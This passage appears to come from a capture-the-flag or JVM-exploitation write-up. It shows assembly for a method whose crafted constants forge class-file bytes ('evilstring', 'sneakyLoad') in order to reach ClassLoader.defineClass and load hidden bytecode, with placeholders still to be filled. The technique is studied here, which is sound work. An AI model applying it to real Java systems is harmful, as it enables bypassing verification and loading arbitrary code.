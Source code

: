 ```
.method public woodlelyDoodlely : ()I
    .code stack 2000 locals 10
        ldc_w "(Ljava/lang/String;[BLjava/security/ProtectionDomain;)Ljava/lang/Class;"
        ldc_w "Code"

        ldc_w "evilstring"

        ldc2_w 0x------0001------L
        ldc2_w 0x0000000000020001L
        ldc_w  0x--000700
        ldc2_w 0x00090000001C0042L
        ldc2_w 0x00000000102A2B2CL
        ldc2_w 0x57032CBE2DB6----L
        ldc2_w 0x57B0000000000000L
        ldc2_w 0x00000003AAAAAA00L
        ldc2_w 0x00000003BBBBBB00L
        ldc2_w 0x00000003CCCCCC00L
        ldc2_w 0x00000006DDDDDDDDL
        ldc2_w 0x000001--------00L
        ldc2_w 0x00090000001C0043L
        ldc2_w 0x00000000102A0000L
        ldc2_w 0x57B7----B1000000L
        ldc2_w 0x5700000000000000L
        ldc2_w 0x0000000366666600L
        ldc2_w 0x0000000377777700L
        ldc2_w 0x0000000388888800L
        ldc2_w 0x00000E2599999999L

        iconst_0
        ireturn
    .end code
.end method
```

Next up, we have to fill in those placeholders and construct the _real_ value for evilstring. Additionally, we have to satisfiy the following constraints while doing so:


```
[super_cls] = **05
[sneakyLoad_utf] = 03**
```

### More constants

Now we can add in some more strings that we need, to help fill the placeholders:

```
        ldc_w "(Ljava/lang/String;[BLjava/security/ProtectionDomain;)Ljava/lang/Class;"
        ldc_w "Code"
        
        ldc_w "defineClass"
        ldc_w "(Ljava/lang/String;[BIILjava/security/ProtectionDomain;)Ljava/lang/Class;"
        ldc_w "<init>"
        ldc_w "()V"
        ldc_w "java/lang/ClassLoader"

        ldc_w "evilstring"
```
